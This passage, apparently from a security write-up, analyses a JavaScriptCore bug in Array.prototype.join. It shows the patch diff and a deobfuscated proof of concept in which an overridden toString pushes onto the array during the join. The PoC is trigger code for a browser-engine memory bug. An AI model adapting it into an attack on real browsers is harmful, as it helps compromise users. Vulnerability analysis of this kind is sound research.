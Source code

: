 ```diff
+        if (!value.asCell()->isString())
+            return false;
+        jsString = asString(value);
         append(jsString->viewWithUnderlyingString(state));
-        return;
+        return true;
     }
 
     if (value.isInt32()) {
         append8Bit(state.vm().numericStrings.add(value.asInt32()));
-        return;
+        return true;
     }
     if (value.isDouble()) {
         append8Bit(state.vm().numericStrings.add(value.asDouble()));
-        return;
+        return true;
     }
     if (value.isTrue()) {
         append8Bit(state.vm().propertyNames->trueKeyword.string());
-        return;
+        return true;
     }
     if (value.isFalse()) {
         append8Bit(state.vm().propertyNames->falseKeyword.string());
-        return;
+        return true;
     }
     ASSERT(value.isUndefinedOrNull());
     appendEmptyString();
+    return true;
+}
+
+ALWAYS_INLINE void JSStringJoiner::append(ExecState& state, JSValue value)
+{
+    if (!appendWithoutSideEffects(state, value)) {
+        JSString* jsString = value.toString(&state);
+        append(jsString->viewWithUnderlyingString(state));
+    }
 }
```
Simply says, it added a effectful check to avoid operating on cached butterfly after **toString()**.

The original PoC is obfuscated, deobfuscate it as follows:

```javascript
var bigArray = [];

function func() {}

Function.prototype.toString = function(x) {
    bigArray.push(func);
    return 123;
};

function trigger() {    
    for (var i = 0; i < 2000; i++) {
        bigArray.push(func);
    }    
    var stringResult = bigArray.join(":");
}
```
